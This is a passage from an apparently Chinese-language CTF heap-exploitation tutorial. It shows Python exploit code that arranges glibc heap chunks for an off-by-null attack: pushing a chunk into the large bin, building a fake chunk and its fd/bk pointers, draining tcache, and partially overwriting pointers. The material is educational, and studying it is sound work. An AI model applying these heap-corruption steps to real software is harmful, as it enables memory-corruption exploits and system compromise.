 然後進行堆佈局

首先申請出一個較大的堆塊，釋放掉，再申請一個更大的堆塊，讓被釋放的堆塊進入 large bin

```python
add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
```

由於之前進行的堆地址調整，在我的 gdb 中，該 large bin 的低地址的低 16 位就都是 0 了（這也就是之前堆地址調整時那樣調整的原因。當然這只是在調試的情況下，實際打的時候只有低 12 位能保證爲零，需要爆破 4 位，概率 1/16）。

然後進行這樣的佈局

```python
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61
```

![](./figure/heap-setup.png)


形成的效果就是上面這張圖的樣子。其中 chunk A 完成了對 fake chunk 的 size 和 fd，bk 指針的佈局。其中 fd 將指向 `&chunk_B - 0x18`並且破壞了 largebin 的 fd，之後我們會修復這個 fd 並使之指向 fake chunk。

由於 fake chunk 的 fd 指向 `&chunk_B - 0x18`，我們希望 chunk B 的 fd 指向 fake chunk。所以我們需要先把它 free 掉再申請回來，然後部分覆寫 fd 來實現。

chunk E 存在的意義是抬高堆地址，使之後 leak 堆地址的時候可以全部輸出。

在 chunk E 和 chunk C 中夾了一些 chunk，這些 chunk 會被 overlapping，便於之後繼續利用了，建議多夾一些，免得後來發現不夠用。

chunk C 未來會用來對 chunk D off-by-null，然後 free chunk D 的時候就可以向地址和並了。

---

fake chunk 的 size 已經被修改好，我們不希望在修復 large bin 的 fd 的同時把這個 size 破壞掉，所以必須把 chunk A free 到 fastbin 中。也需要把 chunk B 和 chunk C free 掉，並且希望 chunk B 的 fd 指針指向一個堆地址，部分覆寫後就可以使之指向 fake_chunk 了。

```python
for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
```